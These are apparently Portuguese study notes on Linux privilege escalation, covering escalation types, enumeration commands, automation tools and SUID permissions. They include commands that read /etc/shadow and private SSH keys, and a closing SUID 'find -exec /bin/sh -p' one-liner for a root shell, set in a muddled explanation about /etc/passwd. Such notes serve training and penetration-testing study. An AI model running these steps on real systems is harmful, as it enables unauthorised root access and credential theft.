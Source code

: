 # Elevações de Privilégios em Sistemas Operacionais

Uma vulnerabilidade é um defeito ou problema presente na especificação, implementação, configuração ou operação de um software, hardware ou sistema que possa ser explorado para violar as propriedades de segurança do mesmo.

**Elevação ou escalonamento de privilégios** consiste no ato de explorar vulnerabilidades ou deficiências para conseguir privilégios superiores.

### Tipos de Escalonamento de Privilégios

1. **Escalonamento Vertical**: Ocorre quando um usuário ou aplicativo com privilégios inferiores acessa funções ou conteúdos reservados a usuários ou aplicativos de nível superior (ex.: usuário comum → superusuário).
   
2. **Escalonamento Horizontal**: Ocorre quando um usuário comum acessa funções ou conteúdos reservados para outros usuários no mesmo nível de privilégio (ex.: usuário → outro usuário).

### Métodos de Obtenção de Privilégios Elevados

A elevação de privilégios pode ser obtida através de:
- **Força bruta** em hashes de senhas de baixa complexidade.
- **Arquivos privados de autenticação**, como chaves SSH (`id_rsa`).
- **Vulnerabilidades de hardware**, como falhas no chipset.
- **Vulnerabilidades de kernel** do sistema operacional.
- **Vulnerabilidades de aplicações** instaladas.
- **Permissões de sudo** mal configuradas.
- **Tarefas agendadas** (`cron`) mal configuradas.
- **Permissões SUID** configuradas incorretamente.

---

## Enumeração em Sistemas Operacionais com Kernel

### Comandos para Coletar Informações do Sistema

- `uname -a`: Mostra informações detalhadas sobre o kernel e arquitetura do sistema.
- `cat /etc/issue`: Exibe a versão e informações do sistema operacional.
- `cat /proc/version`: Exibe a versão do kernel em execução no sistema.

### Comandos para Coletar Informações sobre o Usuário

- `id`: Mostra o ID do usuário atual e seus grupos.
- `whoami`: Mostra o nome do usuário atualmente logado.
- `sudo -l`: Lista os privilégios `sudo` disponíveis para o usuário atual.
- `groups`: Mostra os grupos dos quais o usuário atual faz parte.
- `cat /etc/passwd`: Exibe os usuários do sistema e suas informações.
- `cat /etc/shadow`: Exibe as senhas criptografadas dos usuários (acessível apenas por root).
- `cat /etc/group`: Exibe os grupos do sistema e os usuários pertencentes a eles.

### Comandos para Coletar Informações de Arquivos

- `cat ~/.bash_history`: Exibe o histórico de comandos executados pelo usuário atual.
- `find / -name id_rsa 2>/dev/null`: Procura por chaves privadas SSH (`id_rsa`) no sistema.
- `cat /home/user/.ssh/id_rsa`: Exibe o conteúdo da chave privada SSH de um usuário.
- `ps -aux`: Lista todos os processos em execução no sistema.
- `top`: Exibe os processos em execução e seu uso de recursos em tempo real.
- `htop`: Versão interativa e aprimorada do `top`.

### Comandos para Variáveis de Ambiente

- `env`: Exibe todas as variáveis de ambiente do sistema.

### Comandos de Rede

- `ifconfig`: Mostra as configurações de rede das interfaces de rede (substituído por `ip` em sistemas modernos).
- `iwconfig`: Mostra as configurações de rede sem fio (Wi-Fi).
- `hostname`: Exibe o nome da máquina.
- `ip a`: Mostra as interfaces de rede e seus endereços IP.
- `ss -anltup`: Mostra as conexões de rede ativas e as portas abertas no sistema.
- `route`: Exibe a tabela de roteamento de rede.
- `ping <ip>`: Envia pacotes ICMP para testar a conectividade com o IP especificado.
- `traceroute <ip>`: Mostra o caminho (hops) que os pacotes percorrem para chegar ao IP especificado.

### Comandos para Informações de Módulos do Kernel

- `lsmod`: Exibe os módulos de kernel carregados no sistema.
- `cat ~/.mysql_history`: Exibe o histórico de comandos SQL executados no MySQL (se houver).
- `cat /etc/crontab`: Mostra tarefas agendadas no sistema via `cron`.
- `snap --version`: Exibe a versão do Snapd (gerenciador de pacotes Snap).
- `sudo --version`: Exibe a versão do sudo (útil para verificar se há vulnerabilidades conhecidas nessa versão).

---

## Ferramentas para Automação da Enumeração

1. **LinPEAS**: Ferramenta de enumeração para sistemas Linux, usada para encontrar rapidamente vulnerabilidades e possíveis vetores de elevação de privilégio.
2. **LinEnum**: Ferramenta automatizada de enumeração de informações sobre o sistema e configuração que podem levar à elevação de privilégios.

### Exploit Database
- **Exploit DB**: Base de dados com exploits conhecidos que podem ser usados para explorar vulnerabilidades.

---

ls -lah

r ou 4 (permissão de leitura)
w ou 2 (permissão de escrita)
x ou 1 (permissão de execução)

Arquivos com permissão SUID
permissçoes especiais para arquivos em SOs com kernel linux (sempre que tiverem essa flag e forem executados, serão executados como root)

comando para pesquisar arquivos com flag suid
find / -perm -u=s 2>/dev/null

identificamos que o que o arquivo /etc/passwd possui a flag
então vamos executar o arquivo find nele, pois o arquivo find, ao encontrar um arquivo que existe, permite que execute-mos um comando ao encontrar, então podemos executar o seguite comando para entrar no user root

find /etc/passwd -exec "/bin/sh" -p \; (onde "/bin/sh" é o exec)

